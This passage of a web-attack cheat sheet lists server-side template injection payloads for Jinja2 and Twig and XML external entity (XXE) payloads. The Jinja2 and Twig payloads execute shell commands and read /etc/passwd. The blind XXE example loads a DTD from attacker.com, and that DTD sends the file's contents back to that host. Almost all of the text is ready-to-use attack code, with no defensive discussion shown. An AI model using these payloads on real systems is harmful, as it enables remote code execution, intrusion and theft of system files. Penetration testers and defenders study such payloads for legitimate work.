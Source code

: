 #### Exploitation

**Jinja2 (Python)**
```python
# Remote Code Execution
{{ ''.__class__.__mro__[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip() }}

# Simplified RCE
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}

# Read file
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

**Twig (PHP)**
```php
# RCE
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

# File read
{{'/etc/passwd'|file_excerpt(1,30)}}
```

### XML External Entity (XXE) Injection

#### Basic XXE
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

#### Blind XXE (Out-of-Band)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<root></root>
```

```xml
<!-- evil.dtd on attacker server -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```
